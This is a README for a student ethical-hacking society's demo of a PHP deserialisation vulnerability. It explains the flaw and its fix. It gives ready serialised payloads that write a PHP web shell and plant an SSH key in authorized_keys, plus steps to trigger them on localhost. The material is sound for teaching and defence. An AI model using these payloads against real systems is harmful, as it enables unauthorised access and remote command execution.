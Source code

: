 # Deserialisation-Demo

This is a demo of a simple PHP deserialisation vulnerability for [Sheffield Ethical Student Hackers](https://shefesh.com).

DISCLAIMER: We are an *ethical* hacking society, and this is for educational purposes only. Don't use it against a system unless you have explicit permission (this means don't use it against your demonstrator, too!) You can read our Code of Conduct [here](https://shefesh.com/downloads/SESH%20Code%20of%20Conduct.pdf).

## unsafe.php

This represents a simple web application that constructs a `SignupForm` object and writes to a file when the `__destruct` method is called. It accepts the GET parameter `username`, which it uses to write a username to a list of users who have signed up. It does this using the class' `parse_username` and `__destruct` functions.

## The Vulnerability

The class variables `$outfile` and `$username_string` are normally set by the `parse_username()` method. However, when a specially crafted `SignupForm` object with these variables already set is passed to the `username` GET parameter, it is deserialised and the `__destruct` method is automatically called. This skips the `parse_username()` method and overrides the variables, meaning their attacker-controlled values are used in the `file_put_contents` call.

The vulnerability only exists because untrusted data (i.e. user input) is passed directly to the `unserialize()` function. Remove this line, and the vulnerability is fixed. In fact, it's not even needed to make this program work - it is there just to teach about the mechanics of the vulnerability, but there may be situations where `unserialize()` may have a genuine use case (for example, if objects were serialized for more efficient storage). In this case, ensure that no untrusted data is allowed into the source of this deserialisation.

## generate-object.php

This is a recreation of the class being used on the web application, as could be created by an attacker with a 'whitebox' view of the web app's `unsafe.php` file.

It creates an instance of the class, with preset values that are used when the object is deserialised. The `$username_string` variable determines the contents that will be written to the file, and the `$outfile` variable determines the path (within the web server's directory). Change these to change the behaviour of your payload.

By default, the object looks like this:

`O:10:"SignupForm":2:{s:7:"outfile";s:10:"gotcha.txt";s:15:"username_string";s:25:"malicious stuff goes here";}`

The syntax is as follows:
- `O` tells us the type is an 'object'
- `10` tells us the character length of the class name `SignupForm`
- `2` tells us the number of variables within the object
- Within the curly brackets `{ }` are the object variables. They follow a similar structure, with each one having a type (`s` meaning 'string'), a variable name and length (`7:"outfile"`), and a value (a string (`s`), `10` characters long, called `"gotcha.txt"`). The variable names and values, and each pair thereof, are separated by semicolons `;`.

This will write the string "malicious stuff goes here" to the `gotcha.txt` file. Pretty harmless, but it should show you how the exploit works!

You can, of course, create these manually - but counting the length of a load of variable names is a pain and it's easy to make a syntax mistake!

## Triggering the Attack

A serialised object must be generated (see `generate-object.php`) and then passed to the `username` GET parameter. To test this locally, run your webserver:

`php -S localhost:5000`

Change your payload by editing the `$username_string` and `$outfile` variables in `generate-object.php`, then make a request to get your object:

`curl localhost:5000/generate-object.php`

Then make a request to the page, passing your object to the `username` GET parameter:

`localhost:5000/unsafe.php?username={SERIALISED OBJECT HERE}`

*Note:* If you use curl, bash may throw a fit at your curly brackets. It's easier to visit the URL in your browser instead.

For example:

`localhost:5000/unsafe.php?username=O:10:"SignupForm":2:{s:7:"outfile";s:10:"gotcha.txt";s:15:"username_string";s:25:"malicious stuff goes here";}`

The `gotcha.txt` file should now appear in the webserver directory!

*Another Note:* Remember, anything you put in your payload happens on *your* machine - if someone monitors your installation directory for naughty `.txt` files and you write something you shouldn't have, don't come crying to us.

## Exploit Payloads

Our example exploit writes something fairly harmless to `gotcha.txt`, demonstrating the vulnerability. However, there are lots of ways to exploit arbitrary file write, even within the constraints of the current directory. Here are a couple of examples:

### Write a Web Shell

This won't necessarily allow you to escalate priveleges, but it lets you perform more actions on the box besides writing to files. You will have the permissions of the user who is running the web server (don't run your web servers as root!)

Here's the serialised object for a cheeky one-line PHP shell:

`O:10:"SignupForm":2:{s:7:"outfile";s:7:"cmd.php";s:15:"username_string";s:29:"<?php system($_GET['cmd']);?>";}`

If you're editing the `$username_string` variable here, you may need to escape the `$` character as follows: `public $username_string = "<?php system(\$_GET['cmd']);?>";`

### Write an SSH key

The file location is limited by the `__DIR__` prefix. However, if for some ungodly reason this webserver was hosted in a user's home directory, a payload such as the following could write an SSH key to the `.ssh/authorized_keys` file. Like the above, this doesn't escalate your priveleges but allows you a more interactive shell

`O:10:"SignupForm":2:{s:7:"outfile";s:20:".ssh/authorized_keys";s:15:"username_string";s:20:"YOUR ID_RSA.pub HERE";}`

I shouldn't have to say this, but "YOUR ID_RSA.pub HERE" is not a valid SSH key. If you want this to work, make sure to replace it (ideally in the `generate-object.php` file itself, so it calculates the length for you)

## Acknowledgements

Thanks to a recent Hack the Box for the inspiration... I won't say which, as it's live! But now you know how this works, go out and find it and root it...
